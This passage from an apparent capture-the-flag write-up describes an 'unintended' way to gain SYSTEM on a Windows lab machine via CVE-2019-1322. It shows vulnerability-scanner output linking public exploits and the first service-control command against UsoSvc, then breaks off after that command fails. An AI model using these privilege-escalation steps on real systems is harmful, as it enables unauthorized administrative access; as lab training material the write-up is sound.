 ## Using CVE-2019-1322

There is another unintended method to root this box. This method is not reliable
as the command to start the Update Orchestrator Service sometime return an error
(maybe because I used public servers and other players were also starting and stop the service).

We run [Windows PEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
on the box. The output shows that some patches are missing mostly the one for
CVE-2019-1322.

    :::text
    <SNIP>
      [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
        OS Build Number: 17763
          [!] CVE-2019-0836 : VULNERABLE
            [>] https://exploit-db.com/exploits/46718
            [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

          [!] CVE-2019-0841 : VULNERABLE
            [>] https://github.com/rogue-kdc/CVE-2019-0841
            [>] https://rastamouse.me/tags/cve-2019-0841/

          [!] CVE-2019-1064 : VULNERABLE
            [>] https://www.rythmstick.net/posts/cve-2019-1064/

          [!] CVE-2019-1130 : VULNERABLE
            [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

          [!] CVE-2019-1253 : VULNERABLE
            [>] https://github.com/padovah4ck/CVE-2019-1253

          [!] CVE-2019-1315 : VULNERABLE
            [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

          [!] CVE-2019-1385 : VULNERABLE
            [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

          [!] CVE-2019-1388 : VULNERABLE
            [>] https://github.com/jas502n/CVE-2019-1388

          [!] CVE-2019-1405 : VULNERABLE
            [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/

As the [article](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/)
precise we can run commands as `SYSTEM` on the box so we stop the service,
configure it to copy the root flag in `C:\a.txt` and start the service again.

    :::text
    C:\windows\system32\inetsrv>sc.exe stop UsoSvc
    sc.exe stop UsoSvc
    [SC] ControlService FAILED 1062:
